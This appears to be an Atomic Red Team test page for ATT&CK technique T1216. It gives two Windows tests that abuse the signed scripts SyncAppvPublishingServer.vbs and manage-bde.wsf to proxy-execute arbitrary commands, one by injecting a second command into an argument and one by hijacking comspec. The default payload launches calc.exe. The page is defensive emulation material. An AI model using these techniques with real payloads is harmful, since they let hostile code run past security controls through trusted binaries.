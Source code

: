 ```yaml
---
tags: [T1216, atomic_test]
filename: "[[T1216|T1216 - Signed Script Proxy Execution]]"
---
```

# T1216 - Signed Script Proxy Execution

## Atomic Test #1 - SyncAppvPublishingServer Signed Script PowerShell Command Execution
Executes the signed SyncAppvPublishingServer script with options to execute an arbitrary PowerShell command.
Upon execution, calc.exe will be launched.

**Supported Platforms:** Windows


**auto_generated_guid:** 275d963d-3f36-476c-8bef-a2a3960ee6eb





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | A PowerShell command to execute. | string | Start-Process calc|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\windows\system32\SyncAppvPublishingServer.vbs "\n;#{command_to_execute}"
```






<br/>
<br/>

## Atomic Test #2 - manage-bde.wsf Signed Script Command Execution
Executes the signed manage-bde.wsf script with options to execute an arbitrary command.

**Supported Platforms:** Windows


**auto_generated_guid:** 2a8f2d3c-3dec-4262-99dd-150cb2a4d63a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| command_to_execute | A command to execute. | path | %windir%&#92;System32&#92;calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
set comspec=#{command_to_execute}
cscript %windir%\System32\manage-bde.wsf
```

#### Cleanup Commands:
```cmd
set comspec=%windir%\System32\cmd.exe
```





<br/>
